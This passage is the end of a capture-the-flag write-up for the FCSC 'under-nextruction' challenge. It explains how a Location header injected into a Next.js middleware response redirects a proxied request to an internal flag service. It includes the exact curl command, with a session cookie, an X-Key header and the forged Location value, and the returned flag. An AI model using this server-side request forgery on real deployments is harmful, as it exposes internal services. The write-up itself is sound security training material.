As you can see, if the `Location` header is set in the middleware response, it will be used to set the `parsedUrl` variable.

This variable is used to set the URL of the request sent to the `proxyRequest` function.

This means that we can set the `Location` header in the middleware response to `http://under-nextruction-flag:5000/get_flag` and it will be used to set the URL of the request sent to the `proxyRequest` function.

## Get the flag !

Now, we'll request `/api/user` since...

- `/api/` is required by the middleware ;
- `/api/user` exists, a 404 error will not be thrown.

Also, we need our session cookie to be set, to comply with the middleware.

```bash
curl https://under-nextruction.fcsc.fr:2213/api/user \
  -b 'session=eyJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InZleGNpdGVkIiwiaWF0IjoxNzQ1MjM4NDUwLCJleHAiOjE3NDUzMjQ4NTB9.Y6BpTLOtsNlBdx6yWdXdZAv3UN2wZFv1iJ2o2Eywy40' \
  -H 'Location: http://under-nextruction-flag:5000/get_flag' \
  -H 'X-Key: 8fce97b0137965a3ddd635355eb3b1d249844c814c7981ade10dc201a329b457'
```

```json
{
  "flag": "FCSC{b2eac9d3dfbf0de3053beb63edec23df41b103c58a18b811ebd52d372d6f0cad}"
}
```

We can now extract the flag and submit it !
